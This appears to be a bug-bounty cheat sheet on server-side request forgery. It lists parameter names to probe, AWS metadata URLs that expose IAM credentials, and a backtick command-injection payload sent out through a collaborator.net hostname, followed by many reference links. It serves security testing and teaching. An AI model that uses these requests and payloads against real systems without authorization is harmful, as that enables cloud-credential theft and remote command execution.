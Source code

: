 # SSRF ( Server-Side-Request-Forgery)
* What's SSRF ??
   * SSRF is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.

## Where to look for ??

1. If you got Open Redirect try escalating it to SSRF.

2. gf SSRF to grep parameters may vulnerable to SSRF.

3. SSRF's are more in API's so crawl the whole web app with burp proxy turned on and search for keywords like., eg :
```
?url=
?uri=
?req= 
etc.....
```
4. Sign up with an Email like blabla.collaborator.net. If u receive HTTP req. in collaborator then its SSRF. But if there's no impact Don't Report it :) DNS and SMTP req. Doesn't matters.

## AWS Metadata
Most of the sites use AWS nowadays...

* AWS localhost is 169.254.169.254 so don't use 127.0.0.1 there!

* If you found an SSRF vulnerability that runs on EC2, try requesting :
```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
```
* Source: https://twitter.com/ADITYASHENDE17/status/1305051512335298562

## Escalation

* SSRF can be Escalated to RCE :) [Impact High] 
* `` `<os cmd>` ``.collaborator.net (thehackerish has a good video in it :)
* If there's no impact! on your SSRF rather than a redirect try to escalate it to XSS.

## Resources 💯
### Youtube
* https://www.youtube.com/watch?v=U0bPPw6uPgY&t=1s
* https://www.youtube.com/watch?v=324cZic6asE
* https://www.youtube.com/watch?v=o-tL9ULF0KI
* https://www.youtube.com/watch?v=324cZic6asE&t=751s
* https://youtu.be/ds4Gp4xoaeA
* https://youtu.be/m4BxIf9PUx0
* https://youtu.be/apzJiaQ6a3k

### Hackerone Reports
* https://hackerone.com/hacktivity?order_field=popular&filter=type%3Apublic&querystring=SSRF
* https://hackerone.com/reports/737161
* https://hackerone.com/reports/816848
* https://hackerone.com/reports/398799
* https://hackerone.com/reports/382048
* https://hackerone.com/reports/406387
* https://hackerone.com/reports/736867
* https://hackerone.com/reports/517461
* https://hackerone.com/reports/508459
* https://hackerone.com/reports/738553
* https://hackerone.com/reports/514224
* https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF
* https://hackerone.com/reports/341876
* https://hackerone.com/reports/793704
* https://hackerone.com/reports/386292
* https://hackerone.com/reports/326040
* https://hackerone.com/reports/310036
* https://hackerone.com/reports/643622
* https://hackerone.com/reports/885975
* https://hackerone.com/reports/207477
* https://hackerone.com/reports/514224

### Blogs
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978
* https://medium.com/@kapilvermarbl/ssrf-server-side-request-forgery-5131ffd61c3c
* https://medium.com/@zain.sabahat/exploiting-ssrf-like-a-boss-c090dc63d326
* https://medium.com/@chawdamrunal/what-is-server-side-request-forgery-ssrf-7cd0ead0d95f
* https://medium.com/swlh/ssrf-in-the-wild-e2c598900434
* https://medium.com/@briskinfosec/ssrf-server-side-request-forgery-ae44ec737cb8
* https://medium.com/@GAYA3_R/vulnerability-server-side-request-forgery-ssrf-9fe5428184c1
* https://medium.com/@gupta.bless/exploiting-ssrf-for-admin-access-31c30457cc44
* https://medium.com/bugbountywriteup/server-side-request-forgery-ssrf-f62235a2c151
* https://medium.com/@dlpadmavathi.us/ssrf-attack-real-example-a7279256abee
* https://blog.securityinnovation.com/the-many-faces-of-ssrf
* https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/
* http://www.techpna.com/uptzh/blind-ssrf-medium.html
* https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90
* http://institutopaideia.com.br/journal/blind-ssrf-medium-cfa769
* https://www.reddit.com/r/bugbounty/comments/cux2zs/ssrf_in_the_wild_the_startup_medium/
* https://www.sonrn.com.br/blog/5a44cc-blind-ssrf-medium
* https://ssrf-bypass-medium.thickkare.pw/
* https://hackerone.com/reports/326040
* https://www.zerocopter.com/vulnerabilities-price-list-printable
* https://medium.com/swlh/intro-to-ssrf-beb35857771f
* https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-1-the-basics-a42ba5cc244a
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-3-b0f5997e3739
* https://medium.com/bugbountywriteup/server-side-request-forgery-ssrf-testing-b9dfe57cca35
* https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0
* https://medium.com/bugbountywriteup/tagged/ssrf
* https://medium.com/seconset/all-about-ssrf-524f41ab96df
* https://blog.cobalt.io/from-ssrf-to-port-scanner-3e8ef5921fbf
* https://portswigger.net/web-security/ssrf
* https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

### Github Repos
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
* https://github.com/jdonsec/AllThingsSSRF

### Author:
* [@0xCyberPirate](https://twitter.com/0xCyberPirate)
